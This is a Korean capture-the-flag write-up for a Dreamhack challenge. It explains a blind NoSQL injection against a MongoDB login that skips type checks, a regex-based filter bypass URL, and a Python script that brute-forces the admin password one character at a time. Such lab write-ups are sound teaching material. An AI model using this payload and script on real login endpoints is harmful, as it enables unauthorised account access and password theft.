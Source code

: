 ## 📍Mango

```
이 문제는 데이터베이스에 저장된 플래그를 획득하는 문제입니다. 
플래그는 admin 계정의 비밀번호 입니다.
플래그의 형식은 DH{…} 입니다.
{‘uid’: ‘admin’, ‘upw’: ‘DH{32alphanumeric}’}
```

![[{59F000E6-5B91-4D49-A479-B2B6D7D99E59}.png]]

아래 주소를 URL에 붙여넣기하면 uid를 반환한다.

![[{57BE0A16-BB46-42E5-95B7-ABB94716DE42}.png]]

문제 지문에 나와있는 대로 admin 계정으로 로그인하려고 하면 막힌다.

![[{4AD563C8-18A8-4CB7-A825-C7C3C234851F}.png]]


#### 소스코드

`admin, dh, admi` 세 가지를 필터링하는 함수가 있다.
![[{3C451C0B-EF1F-442B-94E6-12F733DB7BA0}.png]]

login 페이지는 이용자가 쿼리로 전달한 `uid`와 `upw`를 `filter` 함수로 필터링한다.
필터링에 걸리지 않으면 DB를 검색하고, 찾아낸 이용자의 정보를 반환한다.
![[{CA9A9A0A-5A2B-4C19-AA72-744CDFFCF8A8}.png]]


#### 취약점

login 페이지에서 MongoDB에 쿼리를 전달하는 부분을 보면 쿼리 변수의 타입을 검사하지 않는다.
```sql
const {uid, upw} = req.query;

db.collection('user').findOne({
	'uid': uid,
	'upw': upw,
})
```
이로 인해 NoSQL Injection 공격이 발생할 수 있다.


#### 해결

/login에서는 로그인에 성공했을 때 이용자의 `uid`만 출력하기 때문에 Blind NoSQL Injection으로 admin의 `upw`를 획득해야 한다.

filter 함수가 특정 문자열을 필터링하고 있지만, 정규표현식을 이용하면 우회할 수 있다.

`http://host3.dreamhack.games:15768/login?uid[$regex]=ad.in&upw=D.{*`

![[{6B39B63E-371A-4A54-A77B-FF313DE2C89E}.png]]

`upw`는 정규표현식을 통해 한 글자씩 알아내야 하므로 여러 번 쿼리를 전달할 필요가 있다.
자동화 스크립트를 작성한다.

```python
import requests, string

HOST = 'http://host3.dreamhack.games:15768'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''

for i in range(32):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break
    print(f'FLAG: DH{{{flag}}}')
```

결과!

![[{BA763E55-6627-4715-A8F6-2EAC91CE2E16}.png]]
